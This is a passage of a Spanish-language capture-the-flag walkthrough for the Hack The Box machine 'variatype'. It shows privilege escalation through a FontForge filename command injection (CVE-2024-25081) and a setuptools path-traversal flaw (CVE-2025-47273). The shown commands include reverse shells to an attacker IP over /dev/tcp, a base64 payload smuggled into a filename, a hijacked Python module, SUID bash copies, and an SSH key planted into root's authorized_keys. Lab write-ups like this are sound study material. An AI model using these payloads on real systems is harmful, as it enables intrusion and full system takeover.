    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi
```

Si nos fijamos, vemos que hace lo siguiente:
1. Va a `$UPLOAD_DIR` (Directorio en el que tenemos permisos de escritura)
2. Busca archivos no vacíos con extensiones `.ttf`, `.otf`, etc.
3. Pasa el nombre de cada archivo por un filtro, mandando los que tengan determinados caracteres a cuarentena.
4. Si pasa el filtro, se ejecuta un código python.

Lo relevante aquí es que, una vez se ha pasado el filtro y se va a ejecutar el código Python, el código **importa un módulo en un directorio que controlamos (y en el que podemos escribir)**, lo que hace esto potencialmente vulnerable a Python Library Hijacking.

### Posible Python Library Hijacking
En el código python se hace lo siguiente al iniciar:
```python
import fontforge
import sys
```
Dado que Python busca los módulos primero en el directorio de ejecución, si nosotros, en `$UPLOAD_DIR`, añadimos un `fontforge.py` malicioso, haremos que se ejecute en lugar del original. 

Creamos el módulo malicioso:
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ cat fontforge.py 
import os
os.system("cp /bin/bash /tmp/stevesh && chmod 4755 /tmp/stevesh")
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.56/4445 0>&1"')
```

Ahora creamos un `.ttf` cualquiera que no esté vacío en el directorio.
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ echo "test test" > font.ttf
```

Pero si esperamos un rato, no pasa nada. Podemos usar `pspy` para ver si se ejecuta el script de forma automática cada rato, porque si no lo hace posiblemente tengamos que buscar una forma de hacer que se ejecute manualmente:

```bash
www-data@variatype:/tmp$ ./pspy64s 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2026/03/20 22:54:40 CMD: UID=33    PID=34822  | ./pspy64s 
...
2026/03/20 22:56:01 CMD: UID=0     PID=34832  | /usr/sbin/CRON -f 
2026/03/20 22:56:01 CMD: UID=1000  PID=34833  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/20 22:56:01 CMD: UID=1000  PID=34834  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/20 22:56:01 CMD: UID=1000  PID=34835  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/20 22:56:01 CMD: UID=1000  PID=34836  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/20 22:56:01 CMD: UID=1000  PID=34837  | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('cosa.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process cosa.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
```

Y vemos que efectivamente se ejecuta de forma automatizada cada cierto tiempo, así que, si no nos funciona, es porque no es la vulnerabilidad que buscamos.

### Buscando alternativas
Si podemos ver el script, y además se ejecuta periódicamente, casi seguro tiene que ser nuestra forma de escalar privilegios. Dado que ya hemos visto que `fontools` tenía una vulnerabilidad, podemos probar a ver si `fontforge` tiene otra. Tras una búsqueda:

> *FontForge has several vulnerabilities, including a critical remote code execution vulnerability related to SFD file parsing, which allows attackers to execute arbitrary code if a user interacts with a malicious file.*

Si buscamos archivos de fontforge para ver la versión:
```bash
www-data@variatype:/opt$ find / -iname "*fontforge*" 2>/dev/null
/var/www/portal.variatype.htb/public/files/fontforge.py #Nuestro intento de library hijacking
/usr/local/src/fontforge
/usr/local/src/fontforge/build/lib/libfontforge.so
/usr/local/src/fontforge/build/lib/fontforge.so
...
```

Ahí encontramos algún archivo relevante:
```bash
www-data@variatype:/opt$ cat /usr/local/src/fontforge/build/inc/fontforge-version-extras.h

...[SNIP]...
/* git hash that FontForge was built from */
#define FONTFORGE_GIT_VERSION "a1dad3e81da03d5d5f3c4c1c1b9b5ca5ebcfcecf"
...[SNIP]...
```

Buscamos a qué versión corresponde:
```bash
$ git clone https://github.com/fontforge/fontforge.git
Cloning into 'fontforge'...
$ cd fontforge
$ git fetch --tags
$ git describe --tags a1dad3e81da03d5d5f3c4c1c1b9b5ca5ebcfcecf
20230101
```

Y vemos que se trata de la versión `20230101`, que, tras una búsqueda, vemos que tiene una vulnerabilidad de inyección de comandos: [CVE-2024-25081/25082](https://nvd.nist.gov/vuln/detail/CVE-2024-25081). 

> *Splinefont in FontForge through 20230101 allows command injection via crafted archives or compressed files.*

De todas formas, primero deberíamos saber qué es FontForge, así que lo buscamos y tras una búsqueda encontramos esto:

> *FontForge is a free, open-source font editor used to create, edit, and convert outline and bitmap fonts (TrueType, OpenType, WOFF, etc.) on Windows, Mac, and Linux. It acts as a versatile tool for both custom typeface design and modifying existing fonts. It can run scripts from its GUI and from the command line, and also offers its features as a Python module.*

Aprovechando el CVE, deberíamos poder fácilmente crear un nombre de archivo malicioso e inyectar comandos, pero tenemos el problema de la siguiente línea:
```bash
SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'
```
Si intentamos pasar cualquier cosa fuera de lo común, el archivo no va a llegar a FontForge, aunque lo que sí podemos hacer es aprovechar la parte de la vulnerabilidad que dice:

> *...allows command injection via **crafted archives** or **compressed files**.*

Como veíamos en el script, también se admiten `.zip`, por lo que la idea será pasar un archivo `.zip` con un nombre que pase los filtros, para que luego FontForge lo descomprima, y dentro haya un archivo que sí explote la vulnerabilidad.

1. Creamos el payload:
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.56/4445 0>&1"' | base64 -w0
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni80NDQ1IDA+JjEi
```
2. Creamos el archivo malicioso:
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ touch '$(echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni80NDQ1IDA+JjEi|base64 -d|bash).ttf'
```

3. Intentamos crear el `.zip`
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ zip payload.zip *.ttf
bash: zip: command not found
```
Dado que no hay `zip` en la máquina, lo hacemos en la nuestra y lo descargamos:

4. Descargamos el `.zip`
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ wget http://10.10.14.56:8000/payload.zip
--2026-03-21 08:33:39--  http://10.10.14.56:8000/payload.zip
...[SNIP]...
2026-03-21 08:33:39 (34.3 MB/s) - ‘payload.zip’ saved [340/340]
```

Y finalmente ponemos nuestro puerto en escucha:
```bash
$ penelope -i 10.10.14.56 -p 4445
[+] Listening for reverse shells on 10.10.14.56:4445 
>  Main Menu (m) Payloads (p) Clear (Ctrl-L) Quit (q/Ctrl-C)
[+] Got reverse shell from variatype~10.129.11.241-Linux-x86_64 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3!
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
────────────────────────────────────────────────────────────────────────────────
[-] Session [1] died... We lost variatype~10.129.11.241-Linux-x86_64

[+] Got reverse shell from variatype~10.129.11.241-Linux-x86_64 Assigned SessionID <2>
[+] Got reverse shell from variatype~10.129.11.241-Linux-x86_64 Assigned SessionID <3>
...[SNIP]...
```
Vemos que la reverse shell 1 no ha durado mucho, pero cada vez que se ejecuta el script al parecer llega un nuevo shell. De todas formas podemos coger la siguiente (sessionID 2). Y tan pronto como la cogemos, para intentar conseguir un método de shell estable hacemos lo siguiente:
```bash
steve@variatype:~$ cp /bin/bash /tmp/stevebash && chmod 4777 /tmp/stevebash
```

Así, si se cierra, podemos ir desde nuestro shell anterior como `www-data` y hacernos `steve` directamente:
```bash
www-data@variatype:/tmp$ ./stevebash -p
stevebash-5.2$
```

En cualquier caso, somos `steve`.

## Privesc:  `steve` -> `root`
Ejecutamos `sudo -l` y vemos esto:

```bash
steve@variatype:/opt/font-tools/validators$ sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

Si vemos qué hay en este script:
```bash
#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False

def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()
```


Vemos que el script hace lo siguiente en `main()`:
1. Comprueba que se pase un parámetro `<PLUGIN_URL>`
2. Comprueba que la URL empiece por `http://` o `https://`
3. Comprueba que la URL no tenga más de 10 `/`
4. Instala el plugin

En el proceso de instalación del plugin (`install_validator_plugin(plugin_url)`), el programa hace esto:
1. Comprueba que exista el directorio `PLUGIN_DIR`, si no, lo crea.
2. Descarga el archivo en un directorio determinado por los parámetros de la función (en este caso `index.download(plugin_url, PLUGIN_DIR)`), si miramos el código fuente de la función, vemos que tiene una forma similar a esto:

```python
def download(self, spec, tmpdir):
    # Locate/download spec to tmpdir, return local path
    name, _ = egg_info_for_url(url)
    if name:
        while '..' in name:
            name = name.replace('..', '.').replace('\\', '_')
    filename = os.path.join(tmpdir, name)
    # Download logic here
```

Aquí vemos que `filename`, el archivo en que se va a guardar, se determina usando `os.path.join(tmpdir, name)`, que en nuestro caso corresponde a `os.path.join(PLUGIN_DIR, <URL_Saneada>)`. Esta `<URL_Saneada>` corresponde a `plugin_url` con unas comprobaciones:

1. Se toma la url, p.ej `https://ejemplo.com/plugin16.zip`, y se guarda `plugin16` en la variable `name`
2. Se reemplazan `..` con `.` y `\` con `_`. Esto bloquea intentos de escapar del directorio, pero no cuenta con `/` al principio, que definen rutas absolutas.

Si buscamos precisamente esto de las "rutas absolutas" en el filename, daremos con un CVE ([`CVE-2025-47273`](https://nvd.nist.gov/vuln/detail/CVE-2025-47273)) de Setuptools que habla justamente de esto. Esto se aprovecha de la funcionalidad de la función `os.path.join()`, que funciona de la siguiente manera (ejemplo):

- `os.path.join('/tmp/easy', '/etc/passwd')` da como resultado `'/etc/passwd'`

### CVE-2025-47273
Si pasamos una ruta absoluta a través de `<URL_Saneada>`, podremos guardar el archivo donde queramos. Podemos, por ejemplo, crear un par de claves SSH y copiar la pública a `/root/.ssh/authorized_keys`.
```bash
$ ssh-keygen -t rsa 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/Downloads/serve/vtype_rsa
Enter passphrase for "/home/kali/Downloads/serve/vtype_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/Downloads/serve/vtype_rsa
Your public key has been saved in /home/kali/Downloads/serve/vtype_rsa.pub
```

Como la solicitud va a ser exactamente de `/root/.ssh/authorized_keys`, necesitamos crear la estructura de carpetas. Por suerte, basta con que estemos ubicados (en nuestra máquina) en `/.../<Directorios_cualquiera>/.../root/.ssh/authorized_keys` y sirvamos desde `root/.ssh/authorized_keys`. En otras palabras, no hace falta que creemos un `authorized_keys` en nuestro directorio absoluto `/root/.ssh/authorized_keys`, pues el server de Python hace algo similar a `chroot`.

Creamos la ruta y nos ponemos en escucha:
```bash
$ pwd
/home/kali/Downloads/serve

$ tree -a
.
├── root
│   └── .ssh
│       └── authorized_keys # Contiene lo mismo que vtype_rsa.pub
├── vtype_rsa
└── vtype_rsa.pub

$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora hacemos la solicitud:
```bash
steve@variatype:/opt/font-tools$ sudo /usr/bin/python3 /opt/font-tools/install_validator.py http://10.10.14.56:8000/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-21 10:16:16,794 [INFO] Attempting to install plugin from: http://10.10.14.56:8000/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-21 10:16:16,805 [INFO] Downloading http://10.10.14.56:8000/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-21 10:16:16,892 [INFO] Plugin installed at: /root/.ssh/authorized_keys
[+] Plugin installed successfully.
```

Y vemos nuestro servidor:
```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.11.241 - - [21/Mar/2026 10:16:16] "GET /%2Froot%2F.ssh%2Fauthorized_keys HTTP/1.1" 200 -
```

Así que el archivo se ha guardado exitosamente, ahora simplemente usamos ssh:

```bash
$ ssh root@variatype.htb -i vtype_rsa
Linux variatype 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64
Last login: Sat Mar 21 10:17:31 2026 from 10.10.14.56

root@variatype:~#
```

Y tenemos root.
